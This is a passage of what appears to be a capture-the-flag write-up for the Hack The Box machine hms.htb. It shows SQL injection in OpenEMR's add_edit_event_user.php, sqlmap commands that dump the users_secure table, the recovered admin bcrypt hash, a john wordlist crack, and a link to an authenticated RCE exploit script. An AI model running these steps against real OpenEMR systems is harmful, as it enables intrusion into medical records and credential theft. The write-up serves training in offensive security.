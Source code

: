 * as document say from registration page we can modify these pages requests and access to the database using sql injection

__how__

* navigating to the registration page
* request for `hms.htb/portal/add_edit_event_user.php?eid=1`
* sqli `eid='`through an sql error

### sqlmap

* __Frist__, capture `hms.htb/portal/add_edit_event_user.php?eid=1` from `registration page` in burpSuite.
* __Second__, than dump data using sqlmap tool,

	  sqlmap -r emr.req --dbs --batch
	  sqlmap -r emr.req --dbs --batch openemr --tables
	  sqlmap -r emr.req --dbs --batch openemr -T users_secure --dump

* in the dump i found `user:hash`

	  Database: openemr
	  Table: users_secure
	  [1 entry]
	  +------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+
	  | id   | salt                           | username      | password                                                     | last_update         |
	  +------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+
	  | 1    | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | 2019-11-21 06:38:40 |
	  +------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+
	  ...[snip]...


*ippsec manual sqli [video](https://www.youtube.com/watch?v=kfLU5-Eeyhw&t=1390s)*

#### john

__hash :__ `openemr_admin:$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B`

`john -w=/usr/share/wordlists/rockyou.txt hash`
```
xxxxxx          openemr_admin
```

### creds
`openemr_admin:xxxxxx`

## User Authenticated RCE

### using script [OpenEMR < 5.0.1 - (Authenticated) RCE](exploit/openEMR%3C5.0.1-Authenticated_RCE.py)
